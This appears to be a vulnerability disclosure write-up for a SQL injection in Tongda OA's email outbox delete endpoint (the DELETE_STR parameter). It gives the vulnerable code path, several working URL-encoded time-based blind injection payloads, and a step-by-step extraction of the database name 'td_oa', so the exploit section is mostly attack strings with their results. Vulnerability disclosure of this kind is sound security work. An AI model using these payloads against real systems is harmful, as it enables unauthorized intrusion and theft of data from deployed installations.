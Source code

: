 SQL injection vulnerability exists in Tongda OA v2017 and versions below 11.10

official website:https://www.tongda2000.com/

version:Less than v11.10, v2017

route：/general/email/outbox/delete.php

injection parameter:$DELETE_STR



#### 	1.Vulnerability analysis

The parameter $DELETE_STR here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![t1](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\t1.png)

At the same time, global parameter filtering is shown in the figure below, and only conventional injection filtering detection is performed.

![image-20240126094241423](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094241423.png)

#### 	2.Vulnerability verification

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126094806730](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126094806730.png)

If we replace 116 with another value such as 115, then there will be no time delay, thus proving that our injection is successful. There is a sql injection vulnerability here.

```
1)%20and%20(substr(DATABASE(),1,1))=char(115)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095114500](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095114500.png)

#### 	3.Exploit

Based on the above verification analysis, the SQL injection vulnerability exists. We can continue to obtain the complete name of the entire database through blind injection.

The second digit of the database is intercepted through blind injection, and the second digit is judged to be the letter d through the delay time, and the ASCII code is 100.

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095822818](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095822818.png)

The third digit of the database is intercepted through blind injection, and the second digit is judged to be '_' through the delay time, and the ASCII code is 95.

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126095911470](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126095911470.png)

The fourth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter o through the delay time, and the ASCII code is 111.

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100122531](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100122531.png)

The fifth digit of the database is intercepted through blind injection, and the second digit is judged to be the letter a through the delay time, and the ASCII code is 97.

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image-20240126100029696](G:\北理工\研一\灵通测\二期\漏洞挖掘\cve2\CVE\TongDa Sql inject.assets\image-20240126100029696.png)

In summary, the complete database name can be obtained based on this sql injection vulnerability: td_oa